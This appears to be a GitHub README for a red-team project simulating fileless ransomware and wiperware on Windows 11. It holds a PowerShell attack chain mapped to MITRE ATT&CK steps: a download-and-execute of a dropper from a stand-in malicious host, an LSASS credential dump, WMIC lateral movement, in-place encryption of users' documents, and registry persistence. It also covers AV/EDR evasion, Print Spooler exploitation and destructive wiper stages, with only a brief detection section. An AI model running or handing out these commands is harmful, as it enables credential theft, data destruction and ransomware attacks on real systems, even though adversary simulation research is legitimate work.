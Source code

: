 
# 🚩 Overview

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🔒 Project NSFW: Net Sharing Fileless Wiperware

### Executive Summary

**Project NSFW** is a red/purple team research initiative that simulates a **fileless malware** framework, purpose-built for **Windows 11** environments. This project is for educational and security research purposes only.

---

This repository enables simulation of a realistic adversary kill chain using MITRE ATT&CK techniques, emphasizing complete fileless operation and stealth.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
```

---

### 🧠 Core Concepts

#### **Net Sharing (Initial Access & Wormability)**

* Leverages Windows print and file sharing through `net.exe`, `net use`, and other LOLBins.
* Automates exploitation of **PrintNightmare** and **HiveNightmare** vulnerabilities (`CVE-2021-34527`, `CVE-2021-36934`) for privilege escalation and worm-like propagation.
* Supports both Metasploit-driven attacks (`exploit/windows/printnightmare`) and custom PowerShell/WMI remote execution.

#### **Fileless Execution (Stealth & Evasion)**

* Executes all payloads directly in memory using trusted system binaries:
  * `rundll32.exe`, `regsvr32.exe`, `mshta.exe`, `cmdkey.exe`, `wmic.exe`
* Minimizes disk writes to thwart forensic analysis and evade AV/EDR detection.
* Delivers shellcode through phishing attachments such as `.jpg`, `.lnk`, or `.ps1` files.

#### **Wiper Logic (Final Stage Payload)**

* Emulates ransomware behavior but with a focus on **destruction rather than extortion**.
* Employs **DiskCryptor-based encryption**.
* Can optionally print ransom notes via Windows printer services for realism.

---

### 🧩 Attack Flow Overview

1. **Initial Access** – Spear phishing with embedded `.jpg` or `.lnk` files.
2. **Exploit** – Abuse of Print Spooler or Registry CVEs for escalation.
3. **Lateral Movement** – Network spreading via `net use`, WMI, or PowerShell remoting.
4. **Persistence** – Scheduled tasks or registry keys using LOLBins for stealth.
5. **Payload Execution** – In-memory DLL or shellcode injection (Donut/sRDI).
6. **Impact** – NTFS metadata destruction, ransom notes deployment, and system disruption.

---

### 🎯 Objectives

| Red Team (Adversary Simulation)         | Blue Team (Defender Insight)                 |
| --------------------------------------- | -------------------------------------------- |
| Demonstrate AV/EDR evasion with LOLBins | Tune threat hunting based on ATT&CK mapping  |
| Trigger controlled system failure       | Apply Sigma/Sysmon for real-time monitoring  |

---

### 🔍 Detection & Mitigation Strategy

* Aligned with MITRE ATT&CK tactics:
  * `T1055` (Process Injection), `T1562` (Defense Evasion), `T1021` (Remote Services)
* Recommended detection sources:
  * **Sysmon**, **ELK**, **Splunk**, **Sigma Rules**
* Monitoring tips:
  * Watch for Print Spooler restarts, `rundll32`/`regsvr32` anomalies
  * Track unexpected driver or service installations
  * Monitor memory entropy and suspicious in-memory code execution

---

### ⚠️ Legal Disclaimer

All code, content, and techniques provided in this project are strictly for **educational** and **authorized penetration testing** purposes only. Usage must be confined to **isolated lab environments** and must comply with all relevant laws and regulations.

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware – Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

### 📚 Print Spooler CVEs

* [SysNightmare](https://github.com/GossiTheDog/SystemNightmare)
* [PrintSpoofer (Original)](https://github.com/itm4n/PrintSpoofer/tree/master)
* [PrintSpoofer 2](https://github.com/dievus/printspoofer)
* [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)

